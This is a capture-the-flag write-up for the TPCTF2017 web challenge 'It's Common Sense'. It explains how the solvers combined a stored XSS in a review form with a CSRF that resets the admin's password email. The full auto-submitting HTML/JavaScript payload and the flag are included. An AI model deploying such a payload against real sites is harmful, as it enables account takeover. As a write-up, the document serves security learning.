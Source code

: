 ```yaml
---
layout: post
title:  "TPCTF2017 - It's Common Sense"
author: "G0d3l"
tags: tpctf2017 web xss csrf
---
```


>  We found this site: [Common Sense Reviews](https://commonsensereviews.tpctf.tk/)  
We think the site owners are related to Pirates. Please retrieve the admin password.  
Author: Steven Su


## Steps
- After making an account, we can access "/account" page. The page contains two forms one for submitting a review and the second for resetting the password.
- First idea was to try an XSS on the review form; and then to steal the admin cookie. This didn't work because the cookies were protected with a http only flag.
- We searched for ways to bypass the http only protection but in vain, so we concluded that it wasn't the goal of the task.
- After reading the description again, we tried a simple CSRF attack with an XSS payload to reset the admin password and the flag was sent to our email.

## XSS Payload
{% highlight html %}
<form action="/account" method="POST" name="newpwd">
	<label>Email</label><br/>
	<input required type="text" name="email" value="[REDACTED]"/>
	<input type="hidden" value="Send Request" name="formbtn" />
	<input type="submit" value="Send Request" onclick="document.getElementById('newpwd').submit();"/>
</form>
<script>document.newpwd.submit();</script>
{% endhighlight %}


After waiting a little bit we got this email:
> Reset Your Password  
  Congratulations! Normally, you would've reset the administrators password. For the purposes of this challenge, the flag is tpctf{D1D_Y0U_N0t1c3_Common_Sense_Reviews_1s_P4R7_0F_CSRF_19210jka010920aff}

